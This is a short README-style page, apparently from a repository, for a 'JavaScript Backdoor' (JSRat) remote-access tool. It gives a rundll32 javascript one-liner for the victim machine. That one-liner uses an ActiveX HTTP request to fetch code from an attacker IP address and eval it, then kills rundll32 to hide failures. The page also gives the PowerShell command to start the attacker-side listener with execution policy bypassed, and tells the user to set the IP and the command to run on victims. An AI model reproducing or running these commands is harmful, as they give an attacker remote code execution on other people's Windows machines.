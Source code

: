 #Javascript Backdoor

http://en.wooyun.io/2016/01/18/JavaScript-Backdoor.html

##Victim machine

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}


##Attacker machine

powershell.exe -ExecutionPolicy Bypass -File JSRat.ps1

##Important

Update the IP address in JSRat.ps1 (line 19) and the command to be executed on victim machine.
